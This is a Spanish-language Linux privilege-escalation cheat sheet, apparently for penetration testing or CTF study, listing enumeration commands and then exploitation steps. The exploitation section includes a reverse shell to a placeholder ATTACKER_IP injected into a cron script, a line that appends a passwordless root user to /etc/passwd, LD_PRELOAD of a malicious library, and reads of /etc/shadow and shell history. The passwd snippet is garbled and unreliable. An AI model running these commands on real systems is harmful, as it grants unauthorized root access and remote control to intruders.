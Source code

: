# Enumeration: Linux privilege escalation

## 🔍 Sección 1: Enumeración

### 1️⃣ Información del sistema

```bash
uname -a                   # Versión del kernel
cat /etc/os-release        # Información de la distribución
cat /etc/issue							
arch                       # Arquitectura del sistema
sudo -V
```

### 2️⃣ Usuarios y grupos

```bash
whoami                     # Usuario actual
id                          # Grupos del usuario actual
who -a                      # Usuarios conectados
cat /etc/passwd            # Lista de usuarios
cat /etc/shadow            # Hashes de contraseñas (requiere root)
sudo -l                    # Comandos sudo disponibles
```

### 3️⃣ Permisos y archivos sensibles

```bash
find / -perm -4000 2>/dev/null   # Binarios con SUID
find / -perm -2000 2>/dev/null   # Binarios con SGID
find / -type f -writable 2>/dev/null  # Archivos con permisos de escritura
find /home -name '.*history' 2>/dev/null  # Historial de comandos
find / -type f -perm -g=w -group <grupo> 2>/dev/null # Archivos con permiso de escritura por el grupo
find / -type f -writable -user $(whoami) 2>/dev/null # Archivos escribibles por tu usuario actual (sin importar grupo)
find / -writable -group <grupo> 2>/dev/null # directorios (para escribir archivos dentro)
find / -type f -perm -g=w -perm -111 -group <grupo> 2>/dev/null # Buscar archivos ejecutables escribibles por el grupo
find /<directorio> -type d -perm -2 -ls 2>/dev/null
```

### 4️⃣ Procesos y tareas en ejecución

```bash
ps aux | grep root           # Procesos ejecutados por root
ps -ef | grep <proceso>      # Información de un proceso específico
lsof -i                     # Conexiones activas
```

### 5️⃣ Servicios y conexiones

```bash
netstat -tulnp               # Puertos abiertos y servicios activos
ss -tulnp                    # Alternativa a netstat
iptables -L                  # Reglas de firewall
systemctl list-units --type=service  # Servicios activos
```

### 6️⃣ Cron jobs y timers

```bash
ls -lah /etc/cron*           # Revisar cron jobs
cat /etc/crontab            # Tareas programadas
systemctl list-timers       # Timers activos
```

### 7️⃣ Variables de entorno

```bash
env                         # Variables de entorno
echo $PATH                  # Directorios en PATH
cat /etc/profile            # Variables globales
```

### 8️⃣ Capacidades de binarios

```bash
getcap -r / 2>/dev/null     # Binarios con capacidades especiales
```

### 9️⃣ Contenedores y Docker

```bash
docker ps -a                # Contenedores en ejecución
cat /etc/group | grep docker # Ver si el usuario está en el grupo docker
```

## 💥 Sección 2: Explotación

### 1️⃣ Explotación de SUDO mal configurado

```bash
sudo -l                     # Ver permisos sudo
sudo su                     # Si NOPASSWD está habilitado
sudo <comando>              # Ejecutar comandos con sudo
```

### 2️⃣ SUID/SGID abuse

```bash
find / -perm -4000 2>/dev/null   # Buscar archivos con SUID
find / -perm -2000 2>/dev/null   # Buscar archivos con SGID
/bin/bash -p                     # Ejecutar bash con privilegios SUID
```

### 3️⃣ Malos permisos en archivos y directorios

```bash
openssl passwd newpass
codedPass
echo 'root::0:0:codedPass:::/bin/bash' >> /etc/passwd  # Crear usuario root
```

### 4️⃣ Tareas cron y servicios inseguros

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /path/to/vulnerable_script.sh
```

### 5️⃣ Variables de entorno peligrosas

```bash
export PATH=/tmp:$PATH       # Modificar PATH
export LD_PRELOAD=/tmp/malicioso.so  # Cargar biblioteca maliciosa
```

### 6️⃣ Explotación de procesos en ejecución

```bash
gdb -p <PID>                # Adjuntar a un proceso
```

### 7️⃣ Explotación de servicios y configuraciones de red

```bash
showmount -e <IP>           # Revisar NFS
```

### 8️⃣ Extracción de credenciales

```bash
cat ~/.bash_history         # Revisar historial de comandos
```

### 9️⃣ Kernel Exploits

```bash
uname -r                    # Revisar versión del kernel
searchsploit <versión>      # Buscar exploits para el kernel
```
